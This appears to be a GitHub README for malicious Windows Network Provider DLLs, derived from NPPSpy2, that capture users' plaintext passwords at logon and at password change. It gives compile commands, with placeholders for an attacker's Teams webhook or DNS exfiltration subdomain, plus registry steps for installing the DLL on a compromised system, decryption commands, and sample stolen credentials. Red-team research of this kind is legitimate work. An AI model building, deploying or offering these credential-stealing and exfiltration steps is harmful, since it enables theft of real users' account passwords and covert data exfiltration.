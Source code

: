 # Malicious Network Provider DLLs 

These programs are tests to create Network Providers based on [NPPSpy2](https://github.com/gtworek/PSBits/tree/master/PasswordStealing/NPPSpy2) by [gtworek](https://github.com/gtworek). All credit goes to the original author - I'm simply adding some functionality to explore what works best for me, but I thought it could be interesting for someone so I decided to make it public :)

I will use Base64-encoding or AES-encryption in all examples with the following JSON-like structure to store the information: 

```json
{"timestamp":"TIMESTAMP","operation":"OPERATION","domain":"DOMAIN","username":"USERNAME","password":"PASSWORD"}
```


To use it, simply:

- Compile the DLL (the easiest way is using "x64 Native Tools Command Prompt for VS" cmd)

- Create or update the registry keys (check the [installation](#installation) section)

- Wait until a user logs in or updates its password


<br>

## 1. Store in a text file + Base64-encoding

The default path is "C:\Windows\Task\default.txt" but you can customize it using the macro /DFILE_PATH:

```powershell
cl /LD /DFILE_PATH=\"C:\\\\Windows\\\\Tasks\\\\custom_path.txt\" 1_textfile_base64.c crypt32.lib /link /OUT:anp.dll
```

When a user updates its password, it creates a file with a content similar to:

```bash
eyJ0aW1lc3RhbXAiOiIyMDI1LTA0LTE0IDEwOjI4OjM2Iiwib3BlcmF0aW9uIjoiUFdEX1VQREFURV9PTEQiLCJkb21haW4iOiJERVNLVE9QLTBONkc2OTYiLCJ1c2VybmFtZSI6InJpY2FyZG8iLCJwYXNzd29yZCI6InFxIn0=
eyJ0aW1lc3RhbXAiOiIyMDI1LTA0LTE0IDEwOjI4OjM2Iiwib3BlcmF0aW9uIjoiUFdEX1VQREFURV9ORVciLCJkb21haW4iOiJERVNLVE9QLTBONkc2OTYiLCJ1c2VybmFtZSI6InJpY2FyZG8iLCJwYXNzd29yZCI6InEifQ==
```

Which decoded is:

```json
{"timestamp":"2025-04-14 10:28:36","operation":"PWD_UPDATE_OLD","domain":"DESKTOP-0N6G696","username":"ricardo","password":"qq"}
{"timestamp":"2025-04-14 10:28:36","operation":"PWD_UPDATE_NEW","domain":"DESKTOP-0N6G696","username":"ricardo","password":"q"}
```

<br>

## 2. Store in a text file + AES-encryption

The default path is "C:\Windows\Task\default.txt" and the default AES password is "TEST1234", but you can customize it using the macros /DFILE_PATH and /DAES_PWD:

```powershell
cl /LD /DFILE_PATH=\"C:\\\\Windows\\\\Tasks\\\\custom_path.txt\" /DAES_PWD=\"TEST1234\" 2_textfile_aes.c crypt32.lib advapi32.lib /link /OUT:anp.dll
```

This creates a file with a content similar to:

```bash
gT5LdF8L+zoDlUKBYU0fASbUrBst/hsTltI8aqUyQiGcvev+CtoxnIV53AEM2hdv32TknPnleRUL8eUb4AtRjCOyN9P+tICa7t0BMQAE7FZt+Z+tGpq0unJOsvDQ2VGvcG1RzLL/QrMPUUYvIM1BcEmVPYI5/KZQpr5p+8dX2yrE40QEoN79OodAAflEbh0W
gT5LdF8L+zoDlUKBYU0fASbUrBst/hsTltI8aqUyQiGcvev+CtoxnIV53AEM2hdv0Euwo4lOajrIKowzxM2qflL7XE8KeenZ/7RHu2f7q0xnu/Cl9iGiwxWz9tkCZjD0BL5j9ysFRPla4tLGU2ThIlBeYQ9dVLGiKpZbtX8liXygU4A5o20iROUMR9Ajtojc
```

You can decrypt it using *decrypt_aes.py*, the first argument is the encrypted value and the second is the AES password (it defaults to "TEST1234"):

```bash
python decrypt_aes.py gT5LdF8L+zoDlUKBYU0fASbUrBst/hsTltI8aqUyQiGcvev+CtoxnIV53AEM2hdv32TknPnleRUL8eUb4AtRjCOyN9P+tICa7t0BMQAE7FZt+Z+tGpq0unJOsvDQ2VGvcG1RzLL/QrMPUUYvIM1BcEmVPYI5/KZQpr5p+8dX2yrE40QEoN79OodAAflEbh0W
python decrypt_aes.py gT5LdF8L+zoDlUKBYU0fASbUrBst/hsTltI8aqUyQiGcvev+CtoxnIV53AEM2hdv0Euwo4lOajrIKowzxM2qflL7XE8KeenZ/7RHu2f7q0xnu/Cl9iGiwxWz9tkCZjD0BL5j9ysFRPla4tLGU2ThIlBeYQ9dVLGiKpZbtX8liXygU4A5o20iROUMR9Ajtojc
```

And you get:

```json
{"timestamp":"2025-04-14 11:20:18","operation":"PWD_UPDATE_OLD","domain":"DESKTOP-0N6G696","username":"ricardo","password":"qq"}
{"timestamp":"2025-04-14 11:20:18","operation":"PWD_UPDATE_NEW","domain":"DESKTOP-0N6G696","username":"ricardo","password":"q"}
```

<br>

## 3. Send to Teams webhook + Base64-encoding

There is not a default webhook url, you have to set the value using the macro /DWEBHOOK_URL:

```powershell
cl /LD /DWEBHOOK_URL=L\"https://...\" 3_webhook_base64.c crypt32.lib wininet.lib /link /OUT:anp.dll
```

The information is received in a similar way to option 1:

![imgteams1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_teams1.png)

<br>

## 4. Send to Teams webhook + AES-encryption

You have to set the webhook url value using the macro /DWEBHOOK_URL, the default AES password is "TEST1234" but you can customize it using /DAES_PWD:

```powershell
cl /LD /DWEBHOOK_URL=L\"https://...\" /DAES_PWD=\"TEST1234\" 4_webhook_aes.c crypt32.lib wininet.lib advapi32.lib /link /OUT:anp.dll
```

The information is received in a similar way to option 2:

![imgteams2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_teams2.png)


<br>

## 5. DNS exfiltration + Base64-encoding

This one is not ideal, as the maximum length for a subdomain is 63 characters so it requires multiple DNS queries. As a result, the logon process is delayed by a few seconds, making the slowdown noticeable in some cases.

There is not a default subdomain, you have to set the value using the macro /DSUBDOMAIN:

```powershell
cl /LD /DSUBDOMAIN=L\".SUBDOMAIN.DOMAIN.COM\" 5_dns_base64.c crypt32.lib /link /OUT:anp.dll
```

You can use [this repository](https://github.com/ricardojoserf/dns-exfiltration) for creating the necessary subdomains and the *dns_server.py* script to decode the received values.

```bash
python3 dns_server.py .SUBDOMAIN.DOMAIN.COM
```

![imgdns1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_dns1.png)

It also generates a log file with the subdomains and decoded values:

![imgdns2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_dns2.png)

<br>

## 6. DNS exfiltration + AES-encryption

You have to set the subdomain value using the macro /DSUBDOMAIN, the default AES password is "TEST1234" but you can customize it using /DAES_PWD:

```powershell
cl /LD /DSUBDOMAIN=L\".SUBDOMAIN.DOMAIN.COM\" /DAES_PWD=\"TEST1234\" 6_dns_aes.c crypt32.lib advapi32.lib /link /OUT:anp.dll
```

You can use the *dns_server.py* script again to receive resolved domains and store it in a file:

![imgdns3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_dns3.png)

And the *decrypt_aes.py* script to decrypt the values:

![imgdns4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_dns4.png)

<br>

--------------------

## Installation

You can follow the instructions in [NPPSpy](https://github.com/gtworek/PSBits/tree/master/PasswordStealing/NPPSpy) by [gtworek](https://github.com/gtworek), which can be summed up to:

- Copy the DLL to a path in the compromised system.

- Add a network provider name at the end of the "ProviderOrder" in `HKLM\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order`. For this example I will use "anp".

- Create a key with the format `HKLM\SYSTEM\CurrentControlSet\Services\<CHOSEN_NAME>\NetworkProvider`, for the example I will use `HKLM\SYSTEM\CurrentControlSet\Services\anp\NetworkProvider`.

  - Class = [REG_DWORD]2 - Always this value.

  - ProviderPath = [REG_EXPAND_SZ]"C:\Users\ricardo\Desktop\test.dll" - Path to the DLL.

  - Name = [REG_SZ]"anp" - The name you chose, in this case I will use "anp".
 
<br>

--------------------

## TO-DOs

- Implement more exfiltration techniques (PRs are welcome!)


<br>


--------------------

## References

- [NPPSpy2](https://github.com/gtworek/PSBits/tree/master/PasswordStealing/NPPSpy2) by [gtworek](https://github.com/gtworek) - These programs are just adding some functionality to NPPSpy2 code, all credits to the author

- [T1556.008: Network Provider DLL](https://attack.mitre.org/techniques/T1556/008/)
